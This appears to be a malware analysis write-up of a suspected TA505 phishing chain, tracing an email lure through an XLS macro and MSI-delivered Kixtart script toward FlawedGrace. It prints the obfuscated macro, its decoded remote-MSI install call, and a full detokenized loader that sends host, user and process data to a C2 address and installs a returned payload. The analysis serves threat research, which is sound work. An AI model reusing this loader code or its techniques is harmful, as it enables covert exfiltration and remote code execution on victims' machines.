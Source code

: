 # Summary
Suspected TA505 Phish
Attack flow:
Phish -> HTML attachment /w link -> XLS /w macro -> MSI (Kixtart) -> MSI (Rebol) -> FlawedGrace

# Email
Sender: 	admin@commaxdiafon.com
Subject:  	Claim Processing 20210925
Received: 	from 196-60win.webimhosting.com (HELO webimhosting.com) ([217.195.196.60])

Contains an html attachment which contains a link to download a malicious XLS hxxps://cdn-8846-sharepoint-office.com/CL09302021_00137[.]xls 

# XLS (deaad3ea1c708cd99e41c4043169aa4d)
- Macro
    ```
    Function Auto_Open()
        Dim a As New ScriptControl
        a.Language = ActiveWorkbook.BuiltinDocumentProperties("Subject").Value
        a.AddCode (ActiveWorkbook.BuiltinDocumentProperties("Comments").Value)
    End Function
    ```
- Comments: eval('})"53.502.831.551//:ptth"(tcudorPllatsnI;2=leveLIU{))"rellatsnI.rellatsnIswodniW"(tcejbOXevitcA wen(htiw'.split('').reverse().join(''))
- Reversed: with(new ActiveXObject("WindowsInstaller.Installer")){UILevel=2;InstallProduct("hxxp://155.138.205.35")}

- Pulls down and executes MSI 

# MSI (84ec41afdc49c2ee8dff9ba07ba5c9a4)
- contains benign kixtart engine (named svchost.exe) and an encrypted and tokenized kixtart script (named svchost.bin)
	
# Kixtart Script (a176738655f7bd7270aa086db0f35451)
- Encrypted and tokenized 
- Developed a python script to decrypt and detokenize: https://github.com/jhumble/Kixtart-Detokenizer
- Full cleaned up kixtart script below
	
I wasn't able to coerce the C2 into giving me an additional payload, but other reporting indicates that it leads to another MSI containing a Rebol script, which downloads and executes FlawedGrace

# Detokenized Script
```
Function base64($string,$mode,$file)
	DIM $xml_object,$xml_doc,$stream_object,$strxml,$rc
	$xml_object =  createobject("MSXML2.DOMDocument.3.0") 
	if $mode
		$strxml = "<B64DECODE xmlns:dt="urn:schemas-microsoft-com:datatypes" dt:dt="bin.base64">" + $string + "</B64DECODE>"
		$rc = $xml_object.loadxml($strxml) 
		$base64 = $xml_object.selectsinglenode("B64DECODE") .nodetypedvalue
		if @errorexit (@error & )  endif 
		if $file
			$stream_object =  createobject("ADODB.Stream") 
			if @errorexit (@error & )  endif 
			$rc = $stream_object.open
			if @errorexit (@error & )  endif 
			$stream_object.type = 1
			$rc = $stream_object.write($base64) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
			$stream_object.savetofile($file,2) 
			exit (@error & ) 
		endif 
	else
		$stream_object =  createobject("ADODB.Stream") 
		if @errorexit (@error & )  endif 
		$rc = $stream_object.open
		if @errorexit (@error & )  endif 
		if  len($file)  and 0 =  exist($file) exit 2 endif 
		if $file
			$stream_object.type = 1
			$stream_object.loadfromfile($file) 
			if @errorexit (@error & )  endif 
		else
			$stream_object.type = 2
			$stream_object.charset = "iso-8859-1"
			$rc = $stream_object.writetext($string) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
		endif 
		$string = $stream_object.read
		$xml_doc = $xml_object.createelement("base64") 
		$xml_doc.datatype = "bin.base64"
		$xml_doc.nodetypedvalue = $string
		$base64 =  cstr($xml_doc.text) 
		$stream_object = ""
		$xml_doc = ""
		$xml_object = ""
	endif 
EndFunction

$wmicoll =  getobject("WinMgmts:root/cimv2") .execquery("Select * FROM Win32_Process") 

For each $wmiobj in $wmicoll
	$proccess = $proccess + "," + $wmiobj.name
Next

$http =  createobject("microsoft.xmlhttp") 
$http.open("GET","http://45.79.239.23/version.php?data=" + base64(@domain + ":" + @hostname + ":" + @userid + "|" + $proccess) ,Not 1) 
$http.send

if $http.responsebody <> 0
	$msi =  createobject("WindowsInstaller.Installer") 
	$msi.uilevel = 2
	$msi.installproduct($http.responsetext) 
endif```


